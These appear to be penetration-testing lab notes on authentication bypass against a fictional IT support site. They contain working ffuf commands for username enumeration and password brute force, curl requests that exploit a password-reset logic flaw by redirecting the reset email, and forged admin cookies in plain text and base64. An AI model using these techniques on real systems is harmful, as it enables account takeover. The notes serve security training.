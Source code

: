 # Authentication Bypass

### **Authentication Bypass** <a href="#u0vkdg2j9685" id="u0vkdg2j9685"></a>

### **Username Enumeration** <a href="#id-74vaa3219bos" id="id-74vaa3219bos"></a>

Creating a list of valid usernames is helpful exercise when trying to find authentication vulnerabilities.  Website error messages are great resource for collating information to build list of valid usernames.

1. Go to the fake IT Support website’s signup page.
2. Use form to create a new user account.
3. Enter username 'admin' and fill in the other form fields with fake information.
4. Produces "An account with this username already exists" error.
5. Use existence of the error message to produce list of valid usernames already signed up on the system.

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ\&email=x\&password=x\&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE\_IP/customers/signup -mr "username already exists"

* \-w selects wordlist file.
* \-X specifies request method.
  * GET request by default.
* \-d specifies data to be sent.
  * username set to value of FUZZ.
  * FUZZ keyword signifies where contents from wordlist will be inserted in request.
* \-H adds additional headers to the request.
  * Content-Type is set so the web server knows that form data is being sent.
* \-u specifies URL that requests are made to.
* \-mr is text on the page to validate that a valid username has been found.

### **Brute Force** <a href="#t1m9tv1kvdxt" id="t1m9tv1kvdxt"></a>

Automated process that tries a list of commonly used passwords against either a single username or a list of usernames.

1. Brute force the fake IT Support website’s signup page.

* Make sure the terminal is in the same directory as the valid\_usernames.txt file when running the ffuf command.

ffuf -w valid\_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1\&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE\_IP/customers/login -fc 200

* FUZZ keyword now needs to specify custom keywords because multiple wordlists are being used.
* W1 for the list of valid usernames.
* W2 for the list of passwords to try.
* \-w specifies the multiple wordlists but are separated with a comma.
* \-fc used to check for an HTTP status code other than 200 (a positive match).

### **Logic Flaws** <a href="#b06qevmobqa5" id="b06qevmobqa5"></a>

Occurs when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.  These can exist in any area of a website including authentication processes.

1. Examine the 'Reset Password' function of the fake IT Support website.
2. This has a form asking for the email address associated with the account on which to perform the password reset.
3. An 'Account not found from supplied email address' error message is received if an invalid email is entered.
   * Use the valid email address robert@acmeitsupport.thm.
4. The second stage of the reset form asks for the username associated with the login email address.
   * Enter robert as the username.
5. Press the 'Check Username' button.
6. Message confirms that a password reset email has been sent to robert@acmeitsupport.thm.
   * Username is submitted in a POST field to the web server and mail address is sent in the query string request as a GET field.
7. Manually make a request to the web server: curl 'http://MACHINE\_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
   * \-H adds an additional header to the request.
     * Content-Type set to application/x-www-form-urlencoded.
     * This lets the web server know that form data is being sent so it properly understands the request.
8. The user account is retrieved using the query string in this application.
9. However, the password reset email is sent using the data found in the $\_REQUEST PHP variable.
   * $\_REQUEST is an array that contains data received from the query string and POST data.
   * Application logic for $\_REQUEST favours POST data fields over the query string if the same key name is used for both the query string and 'POST' data
   * Because of this where the password reset email gets delivered to can be controlled if another email parameter is added to the 'POST' form.

curl 'http://MACHINE\_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert\&email=attacker@hacker.com'

1. Create another account in the customer section.
   * Doing so provides a unique email address that can be used to create support tickets.
2. The email address is in the format of {username}@customer.acmeitsupport.thm.
3. Rerun the curl Request but with the new @acmeitsupport.thm in the email field:
4. curl 'http://MACHINE\_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert\&email={username}@customer.acmeitsupport.thm'
5. This will create a ticket on the new account which contains a link to log in as Robert.

### **Cookie Tampering** <a href="#dhb1wqzcazgk" id="dhb1wqzcazgk"></a>

Examining and editing cookies set by the web server during an online session can have multiple outcomes:

* Unauthenticated access.
* Access to another user's account.
* Elevated privileges.

#### **Plain Text** <a href="#id-5uito3r70wbs" id="id-5uito3r70wbs"></a>

The contents of some cookies can be in plain text, and it is obvious what they do.

Sample cookies set after a successful login may be Set-Cookie: logged\_in=true; Max-Age=3600; Path=/ and Set-Cookie: admin=false; Max-Age=3600; Path=/.

* One cookie (logged\_in) appears to control whether the user is currently logged in or not.
* The other (admin) controls whether the visitor has admin privileges.

The changing of privileges should be possible if the contents of the cookies were to be changed and a new Request made.

1. Request the target page: curl http://MACHINE\_IP/cookie-test.
   * This returns a 'Not Logged In' message.
2. Send another Request with the logged\_in cookie set to true and the admin cookie set to false: curl -H "Cookie: logged\_in=true; admin=false" http://MACHINE\_IP/cookie-test.
   * This returns a 'Logged In As A User' message.
3. Send another Request setting both the logged\_in and admin cookie to true: curl -H "Cookie: logged\_in=true; admin=true" http://MACHINE\_IP/cookie-test.
   * This returns a 'Logged In As An Admin' message.

#### **Hashing** <a href="#kixysea8n8mo" id="kixysea8n8mo"></a>

Cookie values can look like a long string of random characters (hashes).  These are an irreversible representation of the original text.

<table data-header-hidden><thead><tr><th width="160"></th><th width="148"></th><th></th></tr></thead><tbody><tr><td><strong>Original String</strong></td><td><strong>Hash Method</strong></td><td><strong>Output</strong></td></tr><tr><td>1</td><td>md5</td><td>c4ca4238a0b923820dcc509a6f75849b</td></tr><tr><td>1</td><td>sha-256</td><td>6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b</td></tr><tr><td>1</td><td>sha-512</td><td>4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a</td></tr><tr><td>1</td><td>sha1</td><td>356a192b7913b04c54574d18c28d46e6395428ab</td></tr></tbody></table>

Hash output from the same input string can significantly differ depending on the hash method in use.  Same output is produced every time even though the hash is irreversible.  This is helpful for testers as services such as \[[https://crackstation.net/(](https://crackstation.net/\()][https://crackstation.net/](https://crackstation.net/)) keep databases of billions of hashes and their original strings.

#### **Encoding** <a href="#komj2knen50l" id="komj2knen50l"></a>

Similar to hashing in that it creates a seemingly random string of text although encoding is **reversible**.\
Allows conversion of binary data into human readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

**Base32** converts binary data to the characters A-Z and 2-7.

**Base64** converts using the characters a-z, A-Z, 0-9, +, / and =for padding.

Example of data that is set by a web server upon logging in: `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`

Decoding the base64 string results in a value of `{"id":1,"admin": false}`.\


This can then be encoded back to base64 after setting the admin value to true to provide admin access.
